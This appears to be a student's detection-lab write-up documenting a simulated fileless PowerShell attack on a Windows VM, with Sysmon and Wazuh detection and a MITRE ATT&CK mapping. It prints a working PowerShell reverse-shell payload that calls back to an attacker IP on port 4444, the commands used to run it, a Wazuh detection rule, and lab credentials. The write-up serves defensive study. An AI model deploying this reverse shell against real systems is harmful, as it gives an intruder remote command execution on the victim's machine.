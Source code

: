 # Scenario 1: Fileless Malware with PowerShell

## Overview
- **Date**: June 15, 2025
- **Target**: Windows 10 VM (IP: 192.168.1.101, Hostname: DESKTOP-FF0MPJM)
- **Attacker**: Arch Linux (IP: 192.168.1.55)
- **User**: testuser (Password: P@ssw0rd123)
- **Attack**: Spear-phishing simulation delivering a PowerShell reverse shell executed in memory via SMB (port 445) to establish a remote connection.
- **Objective**: Demonstrate fileless malware execution, detect via Sysmon and Wazuh, and document for Phase 3 submission.

## Attack Details
- **Method**: A PowerShell reverse shell script (`malicious.ps1`) was crafted manually due to Metasploit issues on the attacker machine. The script was delivered to the Windows 10 VM via an SMB share (`\\192.168.1.101\payload`) and executed in memory using `Invoke-Expression`.
- **Execution**:
  - Payload copied to `C:\Temp\malicious.ps1` via SMB using `smbclient`.
  - Executed on Windows 10 VM: `Invoke-Expression -Command (Get-Content C:\Temp\malicious.ps1)`.
  - Reverse shell connected to `netcat` listener on Arch Linux (port 4444).
- **Payload**:
  ```powershell
  $client = New-Object System.Net.Sockets.TCPClient("192.168.1.55",4444);
  $stream = $client.GetStream();
  [byte[]]$bytes = 0..65535|%{0};
  while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){
      $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);
      $sendback = (iex $data 2>&1 | Out-String);
      $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
      $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
      $stream.Write($sendbyte,0,$sendbyte.Length);
      $stream.Flush()
  };
  $client.Close()
  ```
- **Traffic Capture**: Network traffic captured using `tcpdump` on port 4444, saved as `phishing.pcap`.

## Detection
- **Sysmon**:
  - Event ID 1 (Process Creation): Captured `powershell.exe` execution.
  - Event ID 10 (Process Access): Monitored PowerShell process interactions.
  - Logs exported: `sysmon_events_phishing.evtx`.
- **Wazuh**:
  - Custom Rule ID: `100015`
    ```xml
    <rule id="100015" level="12">
      <if_sid>61601</if_sid>
      <field name="sysmon.image">powershell\.exe</field>
      <field name="sysmon.command_line">TCPClient|StreamWriter</field>
      <description>Fileless PowerShell malware execution</description>
      <mitre><id>T1059.001</id></mitre>
    </rule>
    ```
  - Alert Query: `rule.id:100015 AND agent.name:SIEM-Target-Windows-Local`
  - Screenshot: `wazuh_alert.png`
- **Wazuh Agent**: Confirmed connected to Wazuh Cloud endpoint.

## MITRE ATT&CK Mapping
- **T1059.001**: Command and Scripting Interpreter: PowerShell
  - Execution of malicious PowerShell script in memory.
- **T1566.001**: Phishing: Spearphishing Attachment
  - Simulated delivery of payload via SMB as a phishing attachment.

## Artifacts
- **Logs**:
  - `sysmon_events_phishing.evtx`: Sysmon logs from Windows 10 VM.
  - `phishing.pcap`: Network traffic captured on Arch Linux.
- **Screenshots**:
  - `wazuh_alert.png`: Wazuh Cloud dashboard alert.
  - `nc_session.png`: Netcat reverse shell session on Arch Linux.
- **Scripts**:
  - `malicious.ps1`: PowerShell reverse shell script.
- **Directory**: `/home/user/DetectAndDefend/Phase3/Scenario-1-FilelessMalware/{Logs,Screenshots,Scripts}`

## Challenges
- **Metasploit Unavailable**: Manual PowerShell reverse shell used due to issues with Metasploit and msfvenom on Arch Linux.
- **Port 80 Closed**: SMB (port 445) used for payload delivery as HTTP was unavailable.
- **User Passwords**: Passwords for `testuser`, `attacker`, and `hacker` forgotten; reset `testuser` to `P@ssw0rd123` via `Satvik Vemulapalli`.

## Status
- **Attack**: Successfully executed reverse shell, established connection via `netcat`.
- **Detection**: Sysmon and Wazuh alerts triggered and logged.
- **Submission**: Artifacts saved and committed to GitHub repository.

## Notes
- **AWS Deletion**: Pending confirmation (assumed deleted).
- **Ubuntu Droplet**: RDP blank screen unresolved (IP: 165.22.213.132); deferred for Lateral Movement scenario.
- **Next Steps**: Proceed with Scenario 3 (Persistence) and document remaining scenarios (Lateral Movement, DNS Tunneling, Credential Dumping).